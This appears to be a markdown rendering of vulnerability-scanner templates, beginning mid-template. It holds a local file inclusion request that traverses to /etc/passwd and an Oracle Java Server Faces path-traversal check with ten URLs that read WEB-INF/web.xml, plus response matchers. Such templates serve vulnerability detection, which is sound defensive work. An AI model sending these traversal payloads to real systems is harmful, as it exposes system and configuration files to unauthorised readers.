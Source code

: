 - {{BaseURL}}/index.php?p=../../../../../../../../../../../../../../../../etc/passwd%00index&q=About&ajax=true&\_=1355714673828

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Javafaces LFI

## Description

- An Unspecified vulnerability in the Oracle GlassFish Server component in Oracle Fusion Middleware 2.1.1, 3.0.1, and 3.1.2; the Oracle JDeveloper component in Oracle Fusion Middleware 11.1.2.3.0, 11.1.2.4.0, and 12.1.2.0.0; and the Oracle WebLogic Server component in Oracle Fusion Middleware 10.3.6.0 and 12.1.1 allows remote attackers to affect confidentiality via unknown vectors related to Java Server Faces or Web Container.
- severity - medium
- tags - edb,cve,cve2013,lfi,javafaces,oracle

## Requests

- Method - GET

### URL

- {{BaseURL}}/costModule/faces/javax.faces.resource/web.xml?loc=../WEB-INF
- {{BaseURL}}/costModule/faces/javax.faces.resource./WEB-INF/web.xml.jsf?ln=..
- {{BaseURL}}/faces/javax.faces.resource/web.xml?loc=../WEB-INF
- {{BaseURL}}/faces/javax.faces.resource./WEB-INF/web.xml.jsf?ln=..
- {{BaseURL}}/secureader/javax.faces.resource/web.xml?loc=../WEB-INF
- {{BaseURL}}/secureader/javax.faces.resource./WEB-INF/web.xml.jsf?ln=..
- {{BaseURL}}/myaccount/javax.faces.resource/web.xml?loc=../WEB-INF
- {{BaseURL}}/myaccount/javax.faces.resource./WEB-INF/web.xml.jsf?ln=..
- {{BaseURL}}/SupportPortlet/faces/javax.faces.resource/web.xml?loc=../WEB-INF
- {{BaseURL}}/SupportPortlet/faces/javax.faces.resource./WEB-INF/web.xml.jsf?ln=..

### Matchers

**Type - word**

- words
  1. \<web-app
  2. \</web-app>
- part - body
- condition - and
